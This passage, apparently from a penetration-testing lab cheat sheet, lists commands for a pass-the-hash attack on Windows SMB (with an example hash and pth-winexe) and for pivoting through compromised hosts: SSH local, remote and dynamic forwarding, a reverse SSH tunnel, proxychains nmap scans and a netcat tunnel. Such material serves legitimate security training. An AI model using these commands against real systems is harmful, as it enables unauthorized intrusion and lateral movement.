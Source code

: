 -   Passing the Hash in Windows

    -   Use Metasploit to exploit one of the SMB servers in the labs.
        Dump the password hashes and attempt a pass-the-hash attack
        against another system:  
          
        export
        SMBHASH=aad3b435b51404eeaad3b435b51404ee:6F403D3166024568403A94C3A6561896  
          
        pth-winexe -U administrator //$ip cmd

<span id="_6nmbgmpltwon" class="anchor"><span id="_Toc480741823" class="anchor"></span></span>Networking, Pivoting and Tunneling
================================================================================================================================

-   Port Forwarding - accept traffic on a given IP address and port and
    redirect it to a different IP address and port

    -   apt-get install rinetd

    -   cat /etc/rinetd.conf  
        \# bindadress bindport connectaddress connectport  
        w.x.y.z 53 a.b.c.d 80

-   SSH Local Port Forwarding: supports bi-directional communication
    channels

    -   ssh &lt;gateway&gt; -L &lt;local port to listen&gt;:&lt;remote
        host&gt;:&lt;remote port&gt;

-   SSH Remote Port Forwarding: Suitable for popping a remote shell on
    an internal non routable network

    -   ssh &lt;gateway&gt; -R &lt;remote port to bind&gt;:&lt;local
        host&gt;:&lt;local port&gt;  

-   SSH Dynamic Port Forwarding: create a SOCKS4 proxy on our local
    attacking box to tunnel ALL incoming traffic to ANY host in the DMZ
    network on ANY PORT

    -   ssh -D &lt;local proxy port&gt; -p &lt;remote port&gt;
        &lt;target&gt;

-   Proxychains - Perform nmap scan within a DMZ from an external
    computer

    -   Create reverse SSH tunnel from Popped machine on :2222  
        ssh -f -N -R 2222:$ip:22 root@$ip

    -   Create a Dynamic application-level port forward on 8080 thru
        2222  
        ssh -f -N -D $ip:8080 -p 2222 hax0r@$ip

    -   Leverage the SSH SOCKS server to perform Nmap scan on network
        using proxy chains  
        proxychains nmap --top-ports=20 -sT -Pn $ip/24

-   HTTP Tunneling  
    nc -vvn $ip 8888
